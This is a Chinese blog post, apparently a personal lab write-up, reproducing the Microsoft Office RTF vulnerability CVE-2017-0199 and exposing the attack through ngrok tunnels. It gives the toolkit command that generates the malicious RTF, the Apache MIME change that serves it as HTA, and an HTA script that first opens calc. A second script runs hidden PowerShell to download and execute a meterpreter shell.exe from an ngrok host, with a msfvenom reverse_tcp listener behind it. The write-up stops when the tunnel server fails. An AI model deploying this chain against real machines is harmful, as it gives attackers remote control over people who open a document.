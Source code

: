 ```yaml
---
title: 对CVE-2017-0199的一次复现过程与内网穿透的利用
date: 2017-4-22 11:41:00
layout: post
tags:
- 漏洞测试
- CVE-2017-0199

---
```

>FireEye最近检测到使用CVE-2017-0199漏洞的恶意Microsoft Office RTF文档，这是以前从未发现的漏洞。
    CVE-2017-0199漏洞发布日期为2017年4月11号，受影响系统包括：
```
       Microsoft Office 2016
       Microsoft Office 2013
       Microsoft Office 2010
       Microsoft Office 2007
```

该漏洞利用OFFICE OLE对象链接技术，将包裹的恶意链接对象嵌在文档中，OFFICE调用[URL Moniker](https://msdn.microsoft.com/en-us/library/ms775149%28v=vs.85%29.aspx)（COM对象）将恶意链接指向的HTA文件下载到本地， [URL Moniker](https://msdn.microsoft.com/en-us/library/ms775149%28v=vs.85%29.aspx)通过识别响应头中content-type的字段信息最后调用mshta.exe将下载到的HTA文件执行起来。

首先我们要用到一个Python脚本用来生成CVE-20170199的利用脚本，项目地址为：[https://github.com/bhdresh/CVE-2017-0199](https://github.com/bhdresh/CVE-2017-0199)
里面有详细的文档就不一一介绍了。
### 生成RTF文件
  使用如下命令进行生成恶意的RTF文件

  `python cve-2017-0199_toolkit.py -M gen -w test.rtf -u http://192.168.0.104/test.rtf`


### 加入POC

  在192.168.0.104根目录下创建一个为test的rtf文件，并且将如下代码写入到该文件中
  ```
  Test CVE-2017-0199
<script>
poc=new ActiveXObject("WScript.Shell");
poc.run('%SystemRoot%/system32/calc.exe ');window.close();
</script>
  ```
### 更改MIME
 在Apache安装目录下找到conf文件夹，把里面的mime.types文件中的
 >application/rtf					rtf

替换为

 >application/hta					rtf

 然后重启Apache

### 执行poc
  重启完Apache后打开恶意的RTF文件你将看到：

  ![](http://www.ixsrc.cn/img/calc.jpg)
  wr6666 弹出了计算器

  >你以为只能弹出计算器？
  >
  >这不表结束这只是开始。

### 内网穿透
科普：

      内网穿透即NAT穿透，网络连接时术语，计算机是局域网内时，外网与内网的计算机节点需要连接通，有时就会出现不支持内网穿透。就是说映射端口,能让外网的电脑找到处于内网的电脑,提高下载速度。不管是内网穿透还是其他类型的网络穿透，都是网络穿透的统一方法来研究和解决。在百科词条NAT穿越，nat穿透中有关于网络穿透的详细信息。
-----来自百度百科

简单地说就是将内网的端口映射出去，使得外网的机器可以访问内网的资源。

内网穿透的平台有很多，比如
  >1.[NATAPP 基于 ngrok 高速内网穿透](http://natapp.cn/)
  >
  >2.[Ngrok 国内免费服务器](http://qydev.com/)
  >
  >3.[Sunny-Ngrok 内网转发](http://www.ngrok.cc/)
  >
  >4.[gotunnel.org](http://gotunnel.org/)
  >
  >5.[花生壳软件-内网也能用！内网动态域名](http://hsk.oray.com/)
  >
  >6.[网络通内网端口映射](http://www.dkys.org/)

  这里使用Ngrok进行实验
 注册方式略过。

 HTTP隧道:

 ![](http://www.ixsrc.cn/img/ngrok-http.jpg)
 为什么要用HTTP隧道？
 >在后面使用本机的Web环境映射出去,这样就可以通过外网来访问本机的资源（放恶意RTF文件和msf生成的shellcode）

 TCP隧道:

 ![](http://www.ixsrc.cn/img/ngrok-tcp.jpg)
  为什么要用TCP隧道？
 >让外网的机器反弹一个shell到TCP隧道然后转发到kali下，这样kali就可以控制外网机器（反弹shell用）

### 内网穿透的利用
  下载对应的客户端版本
  这里用win10测试，建立完成HTTP、TCP隧道后连接隧道，开启本机的apache服务
  他应该是长这样的：
  ![](http://www.ixsrc.cn/img/ngrok-connect.jpg)
192.168.0.108是kali 的IP地址 4444为kali监听的地址

用msfvenom生成64位的shellcode（多少位的并不重要,可以直接使用windows/meterpreter/reverse_tcp）此处msfvenom的LHOST和LPORT应该是TCP隧道的IP和端口也就是server.ngrok.cc的IP和刚刚填写的反弹端口（测试用的是1419）
 所以它应该是这样的：

 ![](http://www.ixsrc.cn/img/cve-2017-0199-msfvenom.jpg)

然后把shell.exe移到win10的web根目录下
然后msf应该是设置成这样的：
![](http://www.ixsrc.cn/img/cve-2017-0199-msf.jpg)
监听的IP是本机的（TCP隧道里填写的映射ip）,端口也是TCP隧道里填写的映射端口

 然后修改下POC并改为：
  ```
  Test
  <script>
  poc=new ActiveXObject("WScript.Shell");
  poc.run('%SystemRoot%/system32/WindowsPowerShell/v1.0/powershell.exe -windowstyle hidden (new-object System.Net.WebClient).DownloadFile(\'http://meterpreter.ngrok.cc/shell.exe\', \'c:/windows/temp/shell.exe\'); c:/windows/temp/shell.exe', 0);window.close();
  </script>

  ```
  保存为test.rtf
 >`http://meterpreter.ngrok.cc/shell.exe 是HTTP隧道把web环境映射到了http://meterpreter.ngrok.cc/所以shell.exe是在本机WEB根目录下的shell.exe`

 然后将恶意的test.rtf（这不是POC的那个test.rtf，是前文用Python脚本生成的test.rtf恶意文件），在外网的机器打开
 ***
 Then 。。。。。
 ***
 休息了下发现隧道的服务器打不开了QAQ。实验没法继续，最后一步就是在外网机器上打开，然后MS将会收到一个会话... 就不贴图了
